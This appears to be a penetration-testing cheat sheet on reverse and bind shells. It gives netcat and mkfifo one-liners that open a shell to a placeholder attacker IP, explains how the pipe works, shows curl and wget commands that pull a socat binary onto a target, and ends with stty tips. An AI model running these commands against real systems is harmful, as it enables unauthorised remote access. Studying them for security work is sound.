 ```yaml
---
description: Reverse/bind shell
---
```


# Gaining shell

### Webshell repository in Kali Linux

`/usr/share/webshells/`

### Reverse shell

Given a scenario where an attacker has gained remote code execution privileges on a victim machine, a reverse/bind shell can be established to allow the attacker to gain a remote shell session on the victim machine.

A reverse shell works by establishing a connection from the target machine with shell execution, to a listening port on the attacker's machine. This allows any commands sent from the attacker's machine to be executed by the shell on the victim's machine, allowing a remote shell environment.

A bind shell works in an opposite way to a reverse shell, such that the connection is established from attacker machine to the target machine on a specific listening port (enabled by the attacker).&#x20;

#### Basic command on attacker machine:

```bash
# Listen on a TCP port
$ nc -lp [port]
```

#### Command to be executed on the victim's machine:

```bash
# option 1
$ nc <attacker_IP> [port] -e /bin/sh


# option 2: -e flag might not be present for some netcat versions
$ rm /tmp/fifo; mkfifo /tmp/fifo; cat /tmp/fifo | /bin/sh -i 2>&1 | nc <attacker_IP> [port] > /tmp/fifo

```

### Bind shell

#### Basic command on attacker machine:

```bash
# Listen on a TCP port
$ nc <victim_IP> <port>
```

#### Command to be executed on the victim's machine:

```bash
# option 1
$ nc -lp [port] -e /bin/sh

# option 2: with $ symbol on attacker machine
$ rm /tmp/fifo; mkfifo /tmp/fifo; cat /tmp/fifo | /bin/sh -i 2>&1 | nc -lp [port] > /tmp/fifo

```



### Explanation for commands use in option 2 of reverse/bind shell

_**What is a fifo (named pipe) file?**_

> ‘mkfifo’ is primarily used when two processes need to communicate with each other but do not have a parent-child relationship. A FIFO special file is an extension of pipes, which offers a pathway for data between two processes. The FIFO special file can be opened by multiple processes for reading and writing. It is especially useful in scenarios where data streaming is necessary.

{% embed url="https://hopeness.medium.com/master-the-linux-mkfifo-command-a-comprehensive-guide-7e64ac926228" %}
mkfifo command
{% endembed %}

1. `rm /tmp/fifo`: Remove the _fifo_ (named pipe) file if it already exists
2. `mkfifo /tmp/fifo:` Create a _fifo_ file at the location `/tmp/fifo` using the `mkfifo` command
3. `cat /tmp/fifo`: Retrieve content of the created _fifo_ file
4. `/bin/sh-i 2>&1:`  Simply executes the current shell, with the `-i` flag for interactive shell mode, and `2>&1` which redirects standard error to standard output, combining both output streams
5. `nc -lp [port] > /tmp/fifo`: Runs the netcat command and sends the output to `/tmp/fifo`.&#x20;

_**Overview**_

These series of commands essentially continuously waits for an input from the attacker machine, before executing it with the current shell, before sending back as input through the established _netcat_ connection:

```bash
cat /tmp/fifo | /bin/sh -i 2>&1 | nc ... > /tmp/fifo
```

a) Attacker sends remote command, which is directed to (`>`) `/tmp/fifo`

b) When the value of `/tmp/fifo`changes, the `cat` command would retrieve the new value and pipe it as input to the `/bin/sh -i 2>&1` command

c) The output from the executed shell command would be piped back as input through the _netcat_ connection to be viewed on the attacker machine



### Stable shells

Using basic methods such as netcat will generate a shell that might not be stable: terminates with ctrl+Z, non-interactive shell, etc. Alternative methods are available:

1. _**socat**_

Socat is generally more stable on Linux systems compared to Windows (target machine). As socat might not be installed on all target Linux systems, it will need to be installed. However, the common method of using `apt install` or `apt-get install` is not ideal as it requires multiple dependencies and other possible configurations.&#x20;

Instead, a static compiled binary (without dependencies) can be installed from a direct HTTP URL on the target machine using tools such as `curl` or `wget`. Link: [https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)

```bash
$ curl https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true --output /tmp/socat
```

```bash
$ wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true -O /tmp/socat
```



_**Note**_: The binary can also be hosted on another attacker-controlled machine on the internet, and be accessed via a simple Python web server running on that machine.



#### Useful commands to allow smooth interactions

_**Note**_: These commands should be ran from the attacker's machine terminal, and not on the target shell  itself

1. `stty` tool

```bash
$ stty -a

# controls the registered width/height of the terminal - useful to allow smooth interactions with text editors 
$ stty cols <value>
$ sttyl rows <value>
```



{% embed url="https://tryhackme.com/r/room/introtoshells" %}

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux" %}

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell" %}

{% embed url="https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}
